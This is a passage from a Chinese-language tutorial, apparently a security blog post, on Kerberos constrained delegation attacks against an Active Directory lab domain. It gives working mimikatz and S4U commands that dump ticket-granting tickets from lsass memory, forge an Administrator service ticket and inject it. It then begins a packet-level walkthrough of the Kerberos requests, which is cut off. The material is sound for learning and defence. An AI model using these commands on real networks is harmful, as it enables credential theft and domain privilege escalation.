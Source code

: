 如果我们不知道服务用户的明文和 NTLM Hash，但是我们有了服务用户登陆的主机权限（需要本地管理员权限），我们可以用`mimikatz`直接从内存中把服务用户的 TGT dump 出来  

```
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaInkD5V38RlzyYmQIo2e95K1F9ibPdjv6eK5Fcq4vJGrYPlUkbO8KtACg/640?wx_fmt=png)

  
**注**：`sekurlsa::tickets`是列出和导出所有会话的`Kerberos`票据，`sekurlsa::tickets`和`kerberos::list`不同，sekurlsa 是从内存读取，也就是从 lsass 进程读取，这也就是为什么`sekurlsa::tickets /export`需要管理员权限的原因。并且`sekurlsa::tickets`的导出不受密钥限制，sekurlsa 可以访问其他会话（用户）的票证。  
既然服务用户的 TGT 导出来了，我们就跳过`tgt::ask`请求 TGT 这步，直接`tgs::s4u`  

```
tgs::s4u /tgt:[0;3e7]-2-1-40e00000-PC-JACK-0DAY$@krbtgt-0DAY.ORG.kirbi /user:Administrator@0day.org /service:cifs/OWA2010SP3.0day.org
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaI2m3uFdLMGJ7Smk4hnHYXl4gSibYRZqiaL0MdotupQKzfSc8YjnaAqEpw/640?wx_fmt=png)

```
kerberos::ptt TGS_Administrator@0day.org@0DAY.ORG_cifs~OWA2010SP3.0day.org@0DAY.ORG.kirbi
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIVrdzQenuib92TseoPA2DLEsgZicfKBNofSfzeNuz4hG47Nicv7ZlyHVtA/640?wx_fmt=png)

抓包分析约束性委派攻击过程
-------------

  
这里可以看到有 6 个请求  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIUeiaAjDH2l5uu8H5m6ibY5iabSt1OicZqEHKwvcJvKPlKFdsEcoppPBbZQ/640?wx_fmt=png)

### 1.AS-REQ

  
可以看到用户 PC-JACK-0DAY 用户向 KDC 请求一张 TGT  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIlQJlkqT9TicqWkvhgXzk3oKHks3Q67bM8DddO13GTiaz47tPPjOJg1zQ/640?wx_fmt=png)

### 2.AS-REP

  
返回一张 TGT，这张 TGT 代表的就是 PC-JACK-0DAY 这个用户  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIOWEqSfuD9FYOPPMBnet2SDPn0EIZX1BicrWo2pJGoUuYb2EQl7msKbw/640?wx_fmt=png)

### 3. 第一次的 TGS-REQ 和 TGS-REP

  
用这张`TGT`发送`S4U2self`请求，以`Administrator`的名义向`TGS`申请了一张访问自身服务的票据，ST1

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIwfuBMrHg6vdL5oxu2Aqu2SNR8ia0b6Z698UeLVSn5K05rMlDTukyUibg/640?wx_fmt=png)

### 4. 第二次的 TGS-REQ 和 TGS-REP
